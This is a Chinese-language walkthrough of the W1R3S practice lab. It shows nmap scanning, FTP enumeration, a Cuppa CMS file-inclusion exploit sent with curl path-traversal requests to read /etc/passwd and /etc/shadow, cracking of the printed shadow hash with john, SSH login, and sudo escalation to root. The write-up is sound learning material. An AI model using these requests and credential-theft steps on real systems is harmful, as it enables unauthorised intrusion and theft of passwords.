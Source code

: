 # W13rs

## 总结知识点：

知道/etc/passwor和/etc/shadow文件干嘛的；看懂poc怎么利用就行；sudo提权；hash-identifier跑字符类型

## 思路：

找存活主机，信息收集：nmap扫端口，目录扫描，web漏洞扫描，web指纹信息收集；sudo提权

## 流程：

攻击机ip：10.10.10.128

找存活主机，扫c段，发现靶机10.10.10.132

```
nmap -sP 10.10.10.0/24
```

![image-20230514142129889](https://github.com/wswe/test2/blob/main/image-20230514142129889.png)

nmap端口扫描

```
nmap -sV -sS -p- -T5 10.10.10.132    
```

  

-sV ：详细版本  -sS ：用SYN连接 -p- ：全端口 -T5  ：T5级别速度是扫描 

![image-20230514142554803](https://github.com/wswe/test2/blob/main/image-20230514142554803.png)

端口不多，直接在详细扫看看，发现ftp还是有匿名登入的anonymous

```
nmap  -p 21,22,80,3306 -A 10.10.10.132  
```

-p 指定端口  -A：详细全扫描

![image-20230514143236641](https://github.com/wswe/test2/blob/main/image-20230514143236641.png)

下一步直接到ftp里面收集信息

```
ftp 10.10.10.132
```

dir/ls 看目录

get获取文件

然后打开即可,会发现01.txt和03.txt没什么东西，02.txt有两串字符串



![image-20230514143648717](https://github.com/wswe/test2/blob/main/image-20230514143648717.png)

02.txt

![image-20230514143824769](https://github.com/wswe/test2/blob/main/image-20230514143824769.png)

01ec2d8fc11c493b25029fb1f47f39ce这串字符串不知道什么可以使用工具hash-identifier扫一下，发现是md5，解密会发现没什么东西

```
hash-identifier 01ec2d8fc11c493b25029fb1f47f39ce
```

![image-20230514145346457](https://github.com/wswe/test2/blob/main/image-20230514145346457.png)



这个明显是base64字符串  解码后会发现也没什么东西  SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==

其他ftp下的其他目录看内容会发现都没啥信息，说明21端口没啥东西

我们关注一下其他端口，比如80

看到web服务，看到就是目录扫描先，会发现很多内容，因为很多，所以我们优先去关注一级目录下的内容，发现两个疑似有用的内容http://10.10.10.132/administrator/ 和http://10.10.10.132/wordpress/ 

```
dirb http://10.10.10.132
```

![image-20230514145845462](https://github.com/wswe/test2/blob/main/image-20230514145845462.png)

下一步是对这俩目录whatweb指纹识别一下，会发现administrator用了Cuppa CMS搭建的，wordpress没撒谎东西

```
whatweb http://10.10.10.132/administrator/ 
```

![image-20230514150233561](https://github.com/wswe/test2/blob/main/image-20230514150233561.png)

下一步就是直接去找这个CMS的漏洞，然后看一下这个漏洞怎么用的，这个就是重点的

```
searchsploit Cuppa
```

![image-20230514150627187](https://github.com/wswe/test2/blob/main/image-20230514150627187.png)

文件内容主要看描述和怎么用就行了

描述上看就是利用了一个文件包含的漏洞

具体使用就是在目标web目录服务下发送一个请求

url为http://目标/web服务目录/alerts/alertConfigField.php，参数为urlConfig

![image-20230514151337498](https://github.com/wswe/test2/blob/main/image-20230514151337498.png)

![image-20230514151012830](https://github.com/wswe/test2/blob/main/image-20230514151012830.png)

那这里利用的方式就是直接用curl就行

--data-urlencode 发送post请求指定内容内容，内容为urlConfig=../../../../../../../../../etc/passwd

```
curl --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.10.10.132/administrator/alerts/alertConfigField.php 


```

[/etc/shadow和/etc/password文件详细说明](https://blog.csdn.net/snlying/article/details/6130468?ops_request_misc=&request_id=&biz_id=102&utm_term=etc/password%20%E9%87%8C%E9%9D%A2%E7%9A%84x%E8%A1%A8%E7%A4%BA&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-6130468.142^v87^control,239^v2^insert_chatgpt&spm=1018.2226.3001.4187)

然后会返回两个明显的用户组，一个是web服务建立自带的www-data  一个是w1r3s

![image-20230514152334492](https://github.com/wswe/test2/blob/main/image-20230514152334492.png)

发现w1r3s:x   有x说明文件真正的密码被放在/etc/shadow里面，所以下一步我们就要去看/etc/shadow



```
curl --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://10.10.10.132/administrator/alerts/alertConfigField.php 
```

![image-20230514154030697](https://github.com/wswe/test2/blob/main/image-20230514154030697.png)

然后用john去解码，john是一个解密工具

把w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::

放到一个y.txt 里面

然后john test.txt    ，跑出结果  账号/密码   w1r3s/computer

![image-20230514154606089](https://github.com/wswe/test2/blob/main/image-20230514154606089.png)

然后就去用ssh登入了

```
ssh w1r3s@10.10.10.132 
```

![image-20230514154941228](https://github.com/wswe/test2/blob/main/image-20230514154941228.png)

然后就是提权了，这个靶场的提权的知识点，就是简单的sudo提权

先看用户su权限，发现是全权限，所以直接sudo提权即可

sudo -l   查看用户sudo权限

sudo su 升级为root

![image-20230514155603448](https://github.com/wswe/test2/blob/main/image-20230514155603448.png)
